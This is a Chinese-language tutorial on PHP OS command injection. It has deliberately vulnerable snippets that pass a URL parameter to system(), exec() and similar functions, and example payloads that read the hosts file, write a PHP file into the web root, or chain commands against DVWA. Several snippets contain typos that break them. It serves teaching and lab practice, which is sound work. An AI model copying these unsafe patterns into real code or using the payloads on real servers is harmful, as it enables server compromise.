 # 命令注入

## 原理以及成因

程序员使用脚本语言（比如PHP）开发应用程序过程中，脚本语言开发十分快速、简洁、方便但是也伴随着一些问题，比如说速度慢，或者无法接触系统底层，如果我们开发的应用，特别是企业级的一些应用需要去调用一些外部程序(系统命令或者exe等可执行文件)。当应用需要调用一些外部程序时就会用到一些系统命令的函数。

应用再调用这些函数执行系统命令的时候，如果将用户的输入作为系统命令的参数拼接到命令行中，在没有过滤用户的输入的情况下，就会造成命令执行漏洞。
1. 用户输入进行拼接
2. 没有足够的过滤

## 漏洞危害

1. 继承Web服务器程序权限（Web用户权限），去执行系统命令
2. 继承Web服务器权限，读写文件
3. 反弹Shell
4. 控制整个网站
5. 控制整个服务器

相关函数
- system()
system()能够将字符串作为os命令执行，自带输出功能。测试代码如下：
```
<meta charset='gb2312'>
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    system($_GET['cmd']);
}else{
    echo"
    ?cmd=ipconfig
    ";
}
?>
```

- exec()

exec()函数能将字符串作为OS命令执行，需要输出执行结果。测试代码如下
```
<meta charset="gb2312">
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    print exec($_GET['cmd']);
}else{
    echo"
    ?cmd=whoami
    ";
}
?>
```

- shell_exec()
```
<?php
if(isset($_Get['smd'])){
  print shell_exec($_GET['cmd']);
}else{
    echo"?cmd=whoami";
}
?>
```

- passthru
```
<?php
if(isset($_GET['cmd'])){
    passthru($_GET['cmd']);
}else{
    echo"?cmd=whoami";
}
?>
```

- popen()

popen()也能够执行OS命令，但是该函数并不是返回命令结果，而是返回一个文件指针。无论返回什么，我们关心的是命令执行。
```
<?php
if(isset($_GET[''cmd])){
    $cmd=$_GET['cmd'].">>1.txt";
    popen($cmd,'r');
}else{
    echo"?cmd=whoami";
}
?>
```

- 反引号`

```
<?php
if(isset($_GET['cmd'])){
    $cmd=$_GET['cmd'];
    print `$cmd`'
}else{
    echo"?cmd=whoami";
}
?>
```

# 漏洞利用

OS命令注入漏洞，攻击者直接继承Web用户权限，再服务器上执行任意命令，危害特别大。以下命令均在windows系统下测试成功。

- 查看系统文件
提交参数[?cmd=type c:\windows\system32\drivers\etc\hosts],查看系统hosts文件。

- 显示当前路径
提交参数[?cmd=cd]

- 写文件
提交参数[?cmd=echo "<?php phpinfo();?>" >D：、xampp\htdocs\Commandi\shell.php]

页面没有报错。说明文件写入成功。访问shell.php文件

## 防御方法

1. 尽量减少命令执行函数的使用，并在disable_functions中禁用
2. 再进入命令执行的函数或方法之前，对参数进行过滤
3. 参数的值尽量使用引号包裹，并在拼接前调用addslashes进行转义

DVWA  命令注入
low
  127.0.0.1| whoami
  127.0.0.1|whoami
  127.0.0.1&&whoami